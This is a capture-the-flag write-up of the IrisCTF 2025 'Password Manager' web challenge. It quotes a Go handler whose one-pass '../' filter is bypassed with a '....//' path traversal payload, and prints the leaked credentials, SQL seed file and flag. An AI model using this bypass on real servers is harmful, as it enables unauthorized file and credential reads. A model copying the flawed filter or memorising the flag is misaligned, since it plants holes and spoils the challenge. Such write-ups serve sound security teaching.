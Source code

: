 ```yaml
---
title: "Password Manager"
categories: [CTF, IrisCTF2025]
tags: [web]
date: 2025-01-04 19:44:00 +0100
media_subpath: /assets/img/posts/IRISCTF2025/
description: Writup of "Password Manager" challange in IrisCTF 2025.
---
```

## Challange
We have a self-developed password manager and need to find a way to retrieve the passwords from it.

## Solution 
This was quite a simple challenge. After examining the website code, I found this code:
 ```go
var PathReplacer = strings.NewReplacer("../", "",)
<snip>
func pages(w http.ResponseWriter, r *http.Request) {
	// You. Shall. Not. Path traverse!
	path := PathReplacer.Replace(r.URL.Path)

	if path == "/" {
		homepage(w, r)
		return
	}

	if path == "/login" {
		login(w, r)
		return
	}

	if path == "/getpasswords" {
		getpasswords(w, r)
		return
	}

	fullPath := "./pages" + path

	if _, err := os.Stat(fullPath); os.IsNotExist(err) {
		notfound(w, r)
		return
	}

	http.ServeFile(w, r, fullPath)
}
 ```
The initial vulnerability arises from the pathReplacer only replacing "" and "../" which permits Path Traversal with a payload like: `....//`, which gets replaced to: `../`.

 ### Exploit 
With this exploit in mind we can do the following exploit: 
`https://password-manager-web.chal.irisc.tf/....//users.json`

Which gets us: 
`skat	"rf=easy-its+just&spicysines123!@"`

However, this is not the solution. We need to obtain the flag. After some time, I tried using `https://password-manager-web.chal.irisc.tf/....//`, which allowed me to view all files in the root directory.
![Path traversal password manager](IrisCTF2025PasswordManager.png)
Upon Opening the `Setup.sql` i found the remaining information and the flag: 
```SQL
CREATE DATABASE uwu;
use uwu;
CREATE TABLE IF NOT EXISTS passwords ( URL text, Title text, Username text, Password text ) DEFAULT CHARSET=utf8mb4 DEFAULT COLLATE utf8mb4_0900_as_cs;

INSERT INTO passwords ( URL, Title, Username, Password ) VALUES ( "https://example.com", "Discord", "skat@skat.skat", "mypasswordisskat");

INSERT INTO passwords ( URL, Title, Username, Password ) VALUES ( "https://example.com", "RF-Quabber Forum", "skat", "irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}");

INSERT INTO passwords ( URL, Title, Username, Password ) VALUES ( "https://2025.irisc.tf", "Iris CTF", "skat", "this-isnt-a-real-password");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.passwords TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

And so we got the flag: `irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}`